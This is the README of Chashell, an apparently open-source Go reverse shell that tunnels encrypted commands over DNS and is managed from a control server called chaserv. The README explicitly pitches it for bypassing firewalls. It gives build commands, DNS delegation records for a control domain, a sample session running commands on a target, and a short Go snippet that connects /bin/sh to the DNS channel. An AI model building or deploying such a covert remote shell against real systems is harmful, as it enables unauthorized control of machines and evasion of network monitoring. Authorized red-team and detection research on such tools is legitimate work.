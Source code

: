 # Chashell

## Reverse Shell over DNS

Chashell is a [Go](https://golang.org/) reverse shell that communicate using DNS. 
It can be used to bypass firewall or heavy restricted networks.

It comes with a multi-client control server named *chaserv*.

![Chaserv](img/chaserv.gif)

### Communication security

Every packets are encrypted using symetric cryptography ([XSalsa20](https://en.wikipedia.org/wiki/Salsa20) + [Poly1305](https://en.wikipedia.org/wiki/Poly1305)) with a shared key between the client
and the server.

Asymmetric cryptography is **planned**.

### Protocol

Chashell communicate using [Protocol Buffers](https://developers.google.com/protocol-buffers/) serialized messages. The .proto file is available in the **proto** folder.

Here is a (simplified) communication chart :

![Protocol](img/proto.png)

Keep in mind that every packets are encrypted, hex-encoded and then packed for DNS.

### Supported systems

All desktop systems (Windows, Linux, Darwin, BSD variants) supported by the Go compiler should work.

We tested those systems and it works without issues :

* Windows (386/amd64)
* Linux (386/amd64/arm64)


### How to use Chaserv/Chashell

#### Building

Build all the binaries (change the domain_name and the encryption_key) :


```
$ export ENCRYPTION_KEY=$(python -c 'from os import urandom; print(urandom(32).encode("hex"))')
$ export DOMAIN_NAME=c.sysdream.com
$ make build-all
```

Building for a specific platform :

```
$ make build-all OSARCH="linux/arm"
```

Building the server only :

```
$ make build-server
```

Building the client (chashell) only :

```
$ make build-client
```

#### DNS Settings

* Buy/use a domain name of your choice (small if possible).
* Set a DNS record like this : 

```
chashell 300 IN A [SERVERIP]
c 300 IN NS chashell.[DOMAIN].
```

* Run chaserv on the control server.
* Run chashell on the target computer.

The client should now appear on chaserv :

```
[n.chatelain]$ sudo ./chaserv
chashell >>> sessions 5c54404419e59881dfa3a757
Interacting with session 5c54404419e59881dfa3a757.
whoami
n.chatelain
ls /
bin
boot
dev
[...]
usr
var
```

On the server, use the chaserv binary.
For the client (or the target), use the chashell binary.

## Implement your own

The *chashell/lib/transport* is compatible with the *io.Reader* / *io.Writer* interface. So, implementing a reverse shell is easy as :

```go
cmd := exec.Command("/bin/sh")

dnsTransport := transport.DNSStream(targetDomain, encryptionKey)

cmd.Stdout = dnsTransport
cmd.Stderr = dnsTransport
cmd.Stdin = dnsTransport
cmd.Run()
```

## To Do

* Implement asymmetric cryptography ([Curve25519](https://en.wikipedia.org/wiki/Curve25519), [XSalsa20](https://en.wikipedia.org/wiki/Salsa20) and [Poly1305](https://en.wikipedia.org/wiki/Poly1305))
* Retrieve the hostname using the InfoPacket message.
* Create a "proxy/relay" tool in order to tunnel TCP/UDP streams. (Meterpreter over DNS !)